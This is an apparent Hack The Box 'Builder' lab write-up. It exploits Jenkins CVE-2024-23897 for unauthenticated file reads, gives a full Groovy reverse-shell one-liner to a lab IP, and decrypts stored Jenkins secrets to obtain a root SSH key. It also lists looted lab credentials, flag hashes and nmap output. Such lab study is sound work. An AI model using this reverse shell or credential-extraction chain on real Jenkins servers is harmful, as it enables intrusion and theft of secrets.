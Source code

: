 # Builder \[Medium]

{% embed url="https://dev.to/pencillr/spawn-a-jenkins-from-code-gfa" %}

## Report

Jenkins 2.441 is vulnerable to unauthenticated file disclosure via CVE-2024-23897, use it to read credentials of user 'jennifer'. Obtain reverse shell via groovy script and fetch root SSH key stored in credentials.xml in encrypted form. Decrypt and SSH via root

## Cheatsheet

```
Jenkins 2.441
┌──(jtripz㉿kali)-[~/htb/rooms/builder/CVE-2024-23897]
└─$ python3 jenkins_fileread.py -u http://10.10.11.10:8080

CHECK THE ENVIRONMENT VARIABLES
/proc/self/environ

JENKINS_HOME=/var/jenkins_home
/var/jenkins_home/users/jennifer_12108429903186576833/config.xml

#Groovy revshell same as Jeeves
String host="10.10.14.15";int port=9002;String cmd="/bin/sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close()

/var/jenkins_home/credentials.xml
println(hudson.util.Secret.fromString("{XXX=}").getPlainText())
#Get root id_rsa and use it via SSH 
```

## Loot

### Creds

```
jennifer:princess
fd30af54bea6585b923768f92989f6bd - user.txt
32146ecd5bcf782b4fe7a074f0235e43 - root.txt
```

### Enum

```
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-robots.txt: 1 disallowed entry 
|_/
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Dashboard [Jenkins]
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Jetty(10.0.18)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

ubuntu where is the config file
```
